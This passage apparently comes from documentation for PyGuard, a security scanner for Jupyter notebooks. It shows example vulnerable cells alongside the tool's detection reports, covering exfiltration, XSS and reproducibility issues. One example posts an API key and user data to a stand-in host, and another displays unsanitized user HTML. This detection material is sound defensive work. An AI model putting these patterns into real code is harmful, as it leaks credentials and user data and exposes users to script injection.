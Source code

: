 **Example Vulnerable Code:**
```python
# Cell 4: HIGH - Network Exfiltration
import requests
sensitive_data = {"api_key": api_key, "user_data": df.to_dict()}
requests.post("https://untrusted.com/collect", json=sensitive_data)
```

**PyGuard Detection:**
```
HIGH: Network & Data Exfiltration
- HTTP POST/PUT/PATCH to external domain (data exfiltration risk)
- Cell 4, Line 3
- CWE-200 | ASVS-8.3.4
- Confidence: 75%
```

### 5. High Severity - XSS in Outputs

**Detects:**
- Raw HTML display via `IPython.display.HTML()`
- JavaScript execution
- Iframe injection
- SVG with embedded scripts

**Example Vulnerable Code:**
```python
# Cell 5: HIGH - XSS Vulnerability
from IPython.display import HTML
user_input = input("Enter HTML: ")
display(HTML(user_input))  # XSS if user input contains <script>
```

**PyGuard Detection:**
```
HIGH: XSS Vulnerability
- HTML display (XSS risk) - user input should be sanitized
- Cell 5, Line 3
- CWE-79 | ASVS-5.3.3
- Confidence: 75%
```

### 6. Medium Severity - Reproducibility Issues

**Detects:**
- Missing random seeds (PyTorch, TensorFlow, NumPy)
- Unpinned package installations
- Non-deterministic CUDA operations
- Time-dependent code

**Example Vulnerable Code:**
```python
# Cell 6: MEDIUM - Reproducibility Issue
import torch
import numpy as np
# No seeds set - results will be non-reproducible
model = create_model()
model.train()
```

